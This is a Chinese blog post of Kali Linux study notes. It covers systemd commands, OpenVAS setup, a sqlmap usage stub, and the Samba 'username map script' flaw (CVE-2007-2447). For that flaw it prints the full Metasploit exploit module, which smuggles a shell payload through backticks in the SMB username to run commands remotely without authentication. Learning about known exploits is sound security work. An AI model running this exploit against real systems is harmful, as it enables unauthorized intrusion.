 ```yaml
---
layout: post
title: "kali-linux-note"
date: 2017-10-17 11:56:10
image: 'kali-Linux-Destop.jpg'
description: 关于学习kali-Linux的笔记
category: '计算机'
tags:
- 计算机技术
twitter_text: 关于学习kali-Linux的笔记
introduction: 关于学习kali-Linux的笔记
color: '4A3341'
author: 夜雨
---
```


### Systemd

Systemd是一种新的linux系统服务管理器。它替换了init系统，能够管理系统的启动过程和一些系统服务，一旦启动起来，就将监管整个系统。

- 切换至字符界面
  ```sudo systemctl set-default multi-user.target```
- 切换至图形界面
  ```sudo systemctlset-default graphical.target```
- 打开图形界面
  ```sudo init 5```
### Metasploit
#### usermap_script 漏洞相关笔记
- usermap_script：CVE-2007-2447
>利用Samba用户名映射脚本命令执行
>这个模块利用漏洞执行命令，在Samba版本3.0.20到3.0.25rc3当使用非默认用户名映射脚本配置选项。 
>通过指定一个用户名包含shell元字符,攻击者可以执行任意命令。 
>不需要身份验证来利用此漏洞，因为此选项用于在身份验证之前映射用户名
>模块的位置 exploit/multi/samba/usermap_script
>用户输入未转义的参数作为参数传递到/bin/sh，允许远程命令执行
>此漏洞最初是针对匿名呼叫报告的
> 经过Samba开发者的进一步调查，结果是确定了问题更广泛和影响远程打印机和文件共享管理。 根本原因是传递通过MS-RPC提供的未过滤的用户输入在调用定义的外部脚本时调用/bin/sh，在smb.conf中。 
> 然而，不同于"username map script"漏洞，远程文件和打印机管理脚本需要经过身份验证的用户会话。
>
> 漏洞的时间线：
>
>  1. 2007年5月7日：漏洞匿名披露到security@samba.org电子邮件列表中。
>  2. 2007年5月7日：Samba的开发人员Gerald Carter开始响应这个漏洞。
>  3. 2007年5月9日：Samba的开发者Jeremy Allison发布了补丁，用于iDefense测试。
>  4. 2007年5月10日：向vendor-sec邮件列表发布通知。
>  5. 2007年5月14日：公开漏洞信息。

```ruby
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

# 这个和Python的import还要C的include一样的作用
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
# Metasploit3是从Msf::Exploit::Remote中继承的

    Rank = ExcellentRanking

    include Msf::Exploit::Remote::SMB

    # For our customized version of session_setup_ntlmv1
    CONST = Rex::Proto::SMB::Constants
    CRYPT = Rex::Proto::SMB::Crypt

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Samba "username map script" Command Execution',
            'Description'    => %q{
                    This module exploits a command execution vulerability in Samba
                versions 3.0.20 through 3.0.25rc3 when using the non-default
                "username map script" configuration option. By specifying a username
                containing shell meta characters, attackers can execute arbitrary
                commands.

                No authentication is needed to exploit this vulnerability since
                this option is used to map usernames prior to authentication!
            },
            'Author'         => [ 'jduck' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 10040 $',
            'References'     =>
                [
                    [ 'CVE', '2007-2447' ],
                    [ 'OSVDB', '34700' ],
                    [ 'BID', '23972' ],
                    [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                    [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                ],
            'Platform'       => ['unix'],
            'Arch'           => ARCH_CMD,
            'Privileged'     => true, # root or nobody user
            'Payload'        =>
                {
                    'Space'    => 1024,
                    'DisableNops' => true,
                    'Compat'      =>
                        {
                            'PayloadType' => 'cmd',
                            # *_perl and *_ruby work if they are installed
                            # mileage may vary from system to system..
                        }
                },
            'Targets'        =>
                [
                    [ "Automatic", { } ]
                ],
            'DefaultTarget'  => 0,
            'DisclosureDate' => 'May 14 2007'))

        register_options(
            [
                Opt::RPORT(139)
            ], self.class)
    end


    def exploit

        connect

        # lol?
        username = "/=`nohup " + payload.encoded + "`"
        begin
            simple.client.negotiate(false)
            simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
        rescue ::Timeout::Error, XCEPT::LoginError
            # nothing, it either worked or it didn't ;)
        end

        handler
    end

end
```
### OpenVas安装

```shell
sudo apt-get install openvas
sudo openvas-setup
```

安装过程中，会被询问关于redis的问题，选择默认选项来以Unix套接字运行。

即使是有快速的网络连接，openvas-setup 仍需要很长时间来下载和更新所有所需的 CVE、SCAP 定义。

请注意 openvas-setup 的命令输出，密码会在安装过程中生成，并在安装的最后在控制台中打印出来。

验证 openvas 正在运行:

`netstat -tulpn`

在 Kali 中启动 OpenVAS：

`openvas-start`

安装后，你应该可以通过 `https://127.0.0.1:9392` 访问 OpenVAS 的 web 程序了。

接受自签名证书，并使用 openvas-setup 输出的 admin 凭证和密码登录程序。

接受自签名证书后，你应该可以看到登录界面了。

### linux命令之ubuntu 重启网络服务而不需重启
```sudo /etc/init.d/networking restart```

## sqlmap学习笔记

```shell
sqlmap -u URL [options]
```

